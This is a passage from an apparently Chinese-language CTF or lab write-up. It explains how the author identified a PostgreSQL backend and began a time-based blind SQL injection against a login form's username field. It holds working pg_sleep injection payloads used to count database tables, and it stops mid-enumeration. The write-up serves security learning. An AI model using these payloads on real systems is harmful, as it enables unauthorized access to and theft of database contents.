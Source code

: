 ![](assets/5-5.png)
因此可猜測送出登入請求的時候\
server 端會比對頁面裡的 current_time 值跟目前的時間的差是否小於等於某個大小\
如果是的話就當作正常的請求來處理，如果不是的話就回 bad hacker error

不過這題不像前面的 lab 那樣，進行 SQL injection 時網頁會印出 query 的結果\
這題只會印出上述這三種 error message，不會印出 query 的輸出結果\
所以可以猜測這題是在考 blind SQL injection，但是試了很久後感覺 bad hacker error 似乎沒什麼用處\
不知道會觸發 bad hacker error 的確切時機是什麼，好像是字串如果有特殊的 pattern 時就會觸發\
因此可能無法利用 error message 的輸出來做 blind SQL injection，也就是說 boolean based 無法派上用場
![](assets/5-6.png)
所以這邊我用的是 time based 的手法，會注入 sleep 之類的 function\
透過有沒有成功造成網頁的延遲來判斷 query 的結果\
首先要先確定 server 是用哪種 database\
參考了 https://github.com/w181496/Web-CTF-Cheatsheet
試了各種 delay function 的語法後，username 輸入以下內容，會成功造成延遲
```sql
' or 1=(select 1 from pg_sleep(2)) --
```
因此它的 database 是用 PostgreSQL，於是就可利用以下兩種方式來進行 time-based blind injection

1. 當 where 裡的條件式為 true，會成功造成延遲 2 秒
```sql
' or 1=(select 1 from pg_sleep(2) where 1=1) --
```
2. 當 where 裡的條件式為 false，不會造成延遲
```sql
' or 1=(select 1 from pg_sleep(2) where 1=0) --
```
至於我把要判斷的條件放在 where 裡而不是 if 裡的原因是\
有些 database 的 if 語法不是用 if，但 where 的語法都會是通用的，這樣會比較方便測試

接下來，參考 https://www.cnblogs.com/swordfall/p/13083714.html
得知 PostgreSQL 可以使用以下 query 來查詢當前 database 的所有 table
![](assets/5-7.png)
database 裡的所有 table name 會存在 ```information_schema.tables``` 裡\
透過 blind injection 來得知當前 database 有多少個 table，於是 username 輸入
```sql
' or 1=(select 1 from pg_sleep(2) where (select count(*) 
from information_schema.tables where table_schema='public')>0) --
```
沒有造成延遲，username 改成輸入
```sql
' or 1=(select 1 from pg_sleep(2) where (select count(*) 
from information_schema.tables where table_schema='public')>1) --
```
也沒造成延遲，username 改成輸入
```sql
' or 1=(select 1 from pg_sleep(2) where (select count(*) 
from information_schema.tables where table_schema='public')>2) --
```